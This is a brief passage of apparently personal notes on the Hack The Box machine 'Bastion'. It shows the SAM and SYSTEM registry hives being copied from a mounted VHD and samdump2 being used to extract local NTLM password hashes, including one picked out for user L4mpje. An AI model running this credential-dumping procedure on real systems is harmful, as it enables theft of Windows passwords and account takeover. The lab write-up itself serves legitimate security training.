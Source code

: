 # find data contain ntlm

    root@kali:~/Desktop/HTB/boxes/bastion# cp /mnt/vhd/Windows/System32/config/SYSTEM .
    root@kali:~/Desktop/HTB/boxes/bastion# cp /mnt/vhd/Windows/System32/config/SAM .

# samdump2

    root@kali:~/Desktop/HTB/boxes/bastion# samdump2 ./SYSTEM ./SAM 
    *disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    *disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

hashnya di: 26112010952d963c8dc4217daec986d9